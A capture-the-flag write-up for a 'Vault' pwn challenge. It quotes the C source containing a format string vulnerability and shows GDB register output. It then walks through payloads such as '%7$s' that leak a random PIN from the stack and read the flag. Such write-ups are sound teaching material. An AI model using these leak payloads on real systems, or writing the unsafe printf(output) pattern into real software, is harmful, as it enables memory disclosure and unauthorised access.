

# Vault
<p align="center">
    
</p>

In addition to the binary for the program, we are given its source code, [vault.c](./vault.c)


The program simulates a vault, where we can add, remove, and list items, as well as read the flag. However, to perform any of those operations we need to open the vault, which involves guessing a random 5-byte PIN set each time the program runs.

When we try to open the vault by guessing its PIN this is the function that checks if we have given the correct PIN:
```c
bool checkPIN(char *pin) {
    char enteredPIN[PIN_LENGTH];
    printf("Enter your PIN to access the vault: ");
    fgets(enteredPIN, PIN_LENGTH, stdin);
    enteredPIN[strcspn(enteredPIN, "\n")] = '\0';
    if (strcmp(pin, enteredPIN) == 0) {
        return true;
    }
    char output[100];
    sprintf(output, "the pin %s is not correct", enteredPIN);
    printf(output);
    return false;
}
```


The function has a format string vulnerability in `printf(output);`, which among other things allow us to read memory from the stack. Because the `pin` variable (an array of bytes) is stored on the stack in `main` we should be able to find its memory address using format strings, given that we find the correct offset. With the format specifier `%s` we should then be able to read what the vaults PIN is (`%s` prints what is stored at the address at the given offset, contrary to `%p` which would print only the address).

To find the offset to the stack address of `pin` we can set a breakpoint on the `strcmp` in `checkPIN` in GDB. The stack address will be stored in the `rdi` register.
```
RAX  0x7fffffffdeec ◂— '5e8f2673cf'
RBX  0
RCX  7
RDX  0x7fffffffde44 ◂— 0x67666564636261 /* 'abcdefg' */
RDI  0x7fffffffdeec ◂— '5e8f2673cf'
RSI  0x7fffffffde44 ◂— 0x67666564636261 /* 'abcdefg' */
R8   0x5555555560b0 ◂— 0x74000a00203a746c /* 'lt: ' */
R9   0
R10  0x555555556090 ◂— 'Enter your PIN to access the vault: '
R11  0x246
R12  0x7fffffffe018 —▸ 0x7fffffffe2cb ◂— '/home/loevland/ctf/ept/pwn/vault/the-vault/vault'
R13  0x5555555558c0 (main) ◂— endbr64
R14  0x555555557d40 (__do_global_dtors_aux_fini_array_entry) —▸ 0x555555555300 (__do_global_dtors_aux) ◂— endbr64
R15  0x7ffff7ffd040 (_rtld_global) —▸ 0x7ffff7ffe2e0 —▸ 0x555555554000 ◂— 0x10102464c457f
RBP  0x7fffffffdec0 —▸ 0x7fffffffdf00 ◂— 1
RSP  0x7fffffffde30 ◂— 0xa /* '\n' */
RIP  0x5555555555a4 (checkPIN+125) ◂— call 0x5555555551e0

─────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]─────────────────────────────────────────────────────────
 ► 0x5555555555a4 <checkPIN+125>    call   strcmp@plt                  <strcmp@plt>
        s1: 0x7fffffffdeec ◂— '5e8f2673cf'
        s2: 0x7fffffffde44 ◂— 0x67666564636261 /* 'abcdefg' */
```

So we know that the PIN is stored at the address `0x7fffffffdeec` (the exact address will change between each run), so now we can use the format string vulnerability to find the offset on the stack where this value is located. We use the format string `%X$p`, where `X` is an integer offset, to specify where on the stack we read from.
```
--- Vault Menu ---
1. Open Vault
2. Add Item
3. Remove Item
4. List Items
5. Read flag
6. Exit
Enter your choice: 1
Enter your PIN to access the vault: %7$p %8$p
the pin 0x7fffffffdeec 0x70243725f7fa5780 is not correct
```

After some trial and error (with numbers 1-6) we see that the address of `pin` is stored at offset `7`. This means that if we use the format string `%7$s` the program will print the bytes stored at this address, which is the pincode!
```
--- Vault Menu ---
1. Open Vault
2. Add Item
3. Remove Item
4. List Items
5. Read flag
6. Exit
Enter your choice: 1
Enter your PIN to access the vault: %7$s
the pin 5e8f2673cf is not correct
```

No that we have leaked the pin we can open the vault and read the flag (note that neither option 2, 3, 4, or 6 is required to get the flag in this challenge).
```
--- Vault Menu ---
1. Open Vault
2. Add Item
3. Remove Item
4. List Items
5. Read flag
6. Exit
Enter your choice: 1
Enter your PIN to access the vault: 5e8f2673cf
Vault opened successfully.

--- Vault Menu ---
1. Open Vault
2. Add Item
3. Remove Item
4. List Items
5. Read flag
6. Exit
Enter your choice: 5
gj! the flag is EPT{find_th3_p1n_f1nd_th3_fl4g}
```